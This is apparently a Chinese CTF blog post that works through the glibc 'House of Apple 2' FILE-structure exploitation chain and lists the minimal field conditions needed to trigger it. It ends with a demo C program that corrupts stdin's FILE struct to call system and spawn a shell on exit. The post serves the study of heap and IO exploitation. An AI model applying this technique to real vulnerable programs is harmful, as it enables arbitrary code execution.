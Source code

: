 ```yaml
---
title: houseofapple2
date: 2024-8-19
categories: beyond-ctf
tag: houseof
---
```

# 前言
houseofapple2应该是我的IO系列引路人了，一直被glibc里面的源码吓得头大，各种条件也是搞得不明不白的，一般只能照抄网上的条件去触发。

现在我的本地设置好了源码调试，又有各种符号表等等，总之我决定啃下houseofapple2，这篇文章暂时先总结houseofapple2的最低触发条件，下次试试把这些条件整合到一起，力求以最小内存大小实现houseofapple2触发
# 调试过程
我们知道houseofapple2的调用链是
```c
exit
->__run_exit_handlers
->_IO_cleanup
->_IO_flush_all_lockp
->_IO_OVERFLOW(这个是个宏定义，实际函数名可以看等会的图片)
->_IO_wdoallocbuf
->任意你设定好的可执行地址
```
本文就以沿着这条链子的调试过程作为线索，找到houseofapple2的最低触发条件
### exit->__run_exit_handlers
![exit_call__run_exit_handlers](./apple2/exit_call__run_exit_handlers.png)
这里没有任何需要满足的条件，从图中右上源码上也可看出
### __run_exit_handlers->IO_cleanup
![exit_handlers_call_io_cleanup](./apple2/exit_handlers_call_io_cleanup.png)
这里依然没有任何需要满足的条件
### _IO_cleanup->_IO_flush_all_lockp
![io_cleanup_call_io_flush_all_lockp](./apple2/io_cleanup_call_io_flush_all_lockp.png)
这是不需要满足条件的最后一步，接下来几乎每一层都有特定条件需要满足
### _IO_flush_all_lockp->_IO_OVERFLOW
![io_flush_all_lockp_call_io_overflow](./apple2/io_flush_all_lockp_call_io_overflow.png)

```c
if  (
        (
            (fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
             || 
            (   _IO_vtable_offset (fp) == 0
             && fp->_mode > 0
             && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
            )
        )
        && _IO_OVERFLOW (fp, EOF) == EOF
    )
```
我们需要进入_IO_OVERFLOW，所以显然我们要满足在` && _IO_OVERFLOW(fp,EOF) == EOF`之前的条件
也就是在`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`与
```c
(   _IO_vtable_offset (fp) == 0
    && fp->_mode > 0
    && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
)
```
中选择一个满足，这时候我们为了后面的条件同时满足，只能选择前者。
### _IO_OVERFLOW->_IO_wdoallocbuf
![io_overflow_call_io_wdoallocbuf](./apple2/io_overflow_call_io_wdoallocbuf.png)
在这张图中可以看到必须不满足`if (f->_flags & _IO_NO_WRITES)`以及满足
```c
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```
才可以进入`_IO_wdoallocbuf(f)`

![flags_macro_define](./apple2/flags_macro_define.png)
根据查询glibc源码，我们发现`_IO_CURRENTLY_PUTTING`的值为0x800
[roderick](https://bbs.kanxue.com/thread-273832.htm#%E5%88%A9%E7%94%A8_io_wfile_overflow%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)发现只要将`_flags`设置为0x68732020，就可以绕过关于flag的各种条件。在这里(0x68732020 & 0x800 = 0)


并且_flags会被当作我们最后执行函数的rdi。比如如果我们决定使用system函数，0x68732020还会被用作system函数的参数，也就是'  sh'。非常的巧妙
### _IO_doallocbuf->任意地址执行
这一步需要把fp->_vtable覆盖成_IO_wfile_jumps，否则会因为如下的检查而利用失败
![validate_vtable](./apple2/validate_vtable.png)
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址
# 利用条件
_IO_flush_all_lockp->_IO_OVERFLOW
需要满足`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`
_IO_OVERFLOW->_IO_wdoallocbuf
需要不满足`if (f->_flags & _IO_NO_WRITES)`
以及满足
```c
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```

以及还需要把fp->_vtable覆盖成_IO_wfile_jumps
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址

总结一下，如果是利用system函数获取shell，需满足如下条件
```
_flags == 0x68732020
fp->_mode == 0
fp->_IO_write_ptr > fp->_IO_write_base
fp->_vtable == _IO_wfile_jumps
fp->_wide_data->_IO_write_base == 0
fp->_wide_data->_wide_vtable+0x68 == &system
```

总结到这一步，发现其实也没想象中那么复杂，很多条件都是0，在内存中有时候本来就是0，根本不需要特别设置。
然后是我写的demo
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
int main()
{
    long libc_base = &printf - 0x60770;
    long _IO_2_1_stdin_ptr = libc_base + 0x219aa0;

    *(int*)(_IO_2_1_stdin_ptr + 0xc0) = 0;
     // fp->_mode = 0
    *(long*)(_IO_2_1_stdin_ptr + 0x28) = 1;
     // fp->_IO_write_ptr = 1
    *(long*)(_IO_2_1_stdin_ptr + 0x20) = 0;
     // fp->_IO_write_base = 0

    *(int*)(_IO_2_1_stdin_ptr + 0) =0x68732020;
    // fp->_flags = '  sh'

    *(long*)(_IO_2_1_stdin_ptr + 0xd8) = libc_base + 0x2160c0;
    // fp->_vtable = _IO_wfile_jumps
    
    long wide_data = *(long*)(_IO_2_1_stdin_ptr + 0xa0);
    *(long*)(wide_data + 0x18) = 0;
    // fp->_wide_data->_IO_write_base = 0

    long fake_wide_data_vtable = malloc(0x300);
    *(long*)(wide_data + 0xe0) = fake_wide_data_vtable;
    *(long*)(fake_wide_data_vtable + 0x68) = &system;
    // fp->_wide_data->_wide_vtable + 0x68 = &system

    exit(0);
}
```
# 小表格
有时候在查找_IO_FILE_plus以及_wide_data对应的值的时候比较麻烦，就搞了一个小表格
![io_file](./apple2/io_file.png)
